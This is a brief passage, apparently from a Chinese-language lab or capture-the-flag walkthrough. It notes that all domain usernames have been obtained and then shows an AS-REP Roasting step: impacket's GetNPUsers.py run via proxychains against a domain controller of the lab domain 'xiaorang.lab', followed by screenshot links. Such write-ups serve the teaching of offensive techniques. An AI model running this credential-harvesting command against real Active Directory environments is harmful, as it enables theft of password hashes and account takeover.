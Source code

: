 [![](assets/1708919820-5834a8b6473150a91ba3c5deed7bfc16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024918-c2149db6-cb69-1.png)

这样我们可以得到所以的域用户名

AS-REP Roasting

```bash
proxychains python3 '/root/Desktop/impacket-master12/examples/GetNPUsers.py'  -dc-ip 172.22.61.17 -usersfile '/root/Desktop/users.txt'  xiaorang.lab/
```

[![](assets/1708919820-a49249f2f361f9faaad3687033fa229f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024922-c4d98868-cb69-1.png)
